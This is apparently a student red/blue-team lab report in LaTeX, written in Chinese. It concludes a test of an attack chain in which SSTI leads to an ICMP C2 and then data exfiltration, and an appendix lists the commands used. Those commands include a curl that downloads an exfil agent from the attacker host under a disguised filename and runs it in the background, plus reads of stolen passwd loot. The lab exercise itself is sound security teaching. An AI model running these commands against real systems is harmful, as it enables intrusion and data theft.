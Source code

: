 \documentclass[UTF8,11pt]{ctexart}
\begin{document}
\section{Conclusion}

本次 2026-04-29 實驗已成功驗證專案中最關鍵的一條
攻擊鏈：紅隊先透過 Recon 分辨假服務與真目標，再故意觸發 honeypot、以 IP alias 繞過網路封鎖，
接著利用 Flask/Jinja2 SSTI 建立 fileless ICMP C2，最後下載並執行 exfil agent，把敏感資料外傳
回攻擊機端。從截圖、命令與 loot 驗證可知，這條鏈路不是理論推演，而是一次實際完成的 hands-on
攻擊流程。

對第六組的專案而言，這次實驗最重要的價值在於：它證明核心構想具有可操作性，
同時也清楚暴露了單純 network-layer defense 的限制。honeypot 與 network MDR 能有效製造摩擦與
告警，但若缺少更深一層的行為偵測，攻擊者仍可藉由改變來源 IP 與利用應用層漏洞繼續推進。
因此，本報告最合適的定位不是 ``完整七回合都跑完''，而是 ``以實證方式驗證專案核心攻擊鏈與
第一層防禦限制''。

\section{Appendix: Commands Actually Used}

\subsection{Blue team startup}
\begin{lstlisting}
cd ~/cybersecurity
bash setup_env.sh
source .venv/bin/activate
sudo .venv/bin/python3 target/target_app.py
sudo .venv/bin/python3 target/honeypot.py
sudo .venv/bin/python3 blue_team/blue_mdr_network.py --cleanup
\end{lstlisting}

\subsection{Red team sequence}
\begin{lstlisting}
source .venv/bin/activate
sudo bash red_team/recon.sh 192.168.1.3
sudo bash red_team/ip_switch.sh add 192.168.1.14
nc -s 192.168.1.14 -v 192.168.1.3 2222
bash red_team/ip_switch.sh add 192.168.1.15
curl -s --interface 192.168.1.15 http://192.168.1.3:9999/
sudo .venv/bin/python3 red_team/red_attacker.py -t 192.168.1.3 -l 192.168.1.15
payload
\end{lstlisting}

\subsection{Commands issued after C2 beacon}
\begin{lstlisting}
whoami
id
cat /etc/hostname
ls
sudo .venv/bin/python3 red_team/exfil_listener.py
curl -sS http://192.168.1.15:8888/exfil_agent.py -o /tmp/.cache_update.py
nohup python3 /tmp/.cache_update.py 192.168.1.15 > /dev/null 2>&1 &
ls -la loot/
cat loot/passwd | head -5
\end{lstlisting}
\end{document}
